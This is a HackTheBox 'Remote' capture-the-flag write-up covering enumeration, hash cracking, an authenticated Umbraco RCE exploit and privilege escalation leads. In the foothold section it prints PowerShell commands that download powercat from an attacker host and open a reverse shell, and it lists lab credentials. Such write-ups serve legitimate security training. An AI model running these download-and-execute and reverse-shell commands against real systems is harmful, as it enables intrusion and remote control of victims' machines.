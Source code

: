 ```yaml
---
title: "Remote"
date: 2024-11-03
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "remote", "htb walkthrough", "hackthebox", "writeup"]
---
```


OS: Windows
Difficulty: Easy

# Credentials

```text
admin@htb.local : baconandcheese
```

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

### 80-HTTP

![screenshot](/assets/images/remote1.png)

http://10.10.10.180/umbraco

![screenshot](/assets/images/remote3.png)

http://10.10.10.180/1111

![screenshot](/assets/images/remote4.png)

### FTP

![screenshot](/assets/images/remote2.png)

### RPC

```sh
rpcclient -U '' -N 10.10.10.180
rpcclient -U'%' 10.10.10.180
rpcclient -U '' 10.10.10.180
```

![screenshot](/assets/images/remote5.png)

### 2049 NFS

```sh
sudo mount -t nfs 10.10.10.180:/site_backups /home/kali/h3llanut3lla/Remote/site_backups/
```

![screenshot](/assets/images/remote6.png)

### Finding credentials

Googling `umbraco credential files` reveals -> `/App_Data/Umbraco.sdf`

```sh
string Umbraco.sdf | grep admin
```

![screenshot](/assets/images/remote7.png)

Copy the hash and format, and save it as `admin.sha1`

![screenshot](/assets/images/remote8.png)

Crack with john.

```sh
john admin.sha1 -w=/usr/share/wordlists/rockyou.txt
```

![screenshot](/assets/images/remote9.png)

![screenshot](/assets/images/remote10.png)

![screenshot](/assets/images/remote11.png)

## Foothold

[Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49488)

![screenshot](/assets/images/remote12.png)

```sh
python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "IEX (New-Object System.Net.Webclient).DownloadString("http://10.10.14.7/powercat.ps1");powercat -c 10.10.14.7 -p 9001 -e powershell"
```

```powershell
# using PowerShell to download powercat and execute a reverse shell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 10.10.14.7 -p 4444 -e powershell
```

The above didn't work changed the exploit to this. 
https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py

```sh
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1');powercat -c 10.10.14.7 -p 9001 -e powershell"
```

![screenshot](/assets/images/remote13.png)

![screenshot](/assets/images/remote14.png)

## Privilege Escalation

```sh
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Running services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

![screenshot](/assets/images/remote15.png)

[TeamViewer 11.0.65452 (x64) - Local Credentials Disclosure](https://www.exploit-db.com/exploits/40342)

![screenshot](/assets/images/remote17.png)

SeImpersonate

![screenshot](/assets/images/remote18.png)
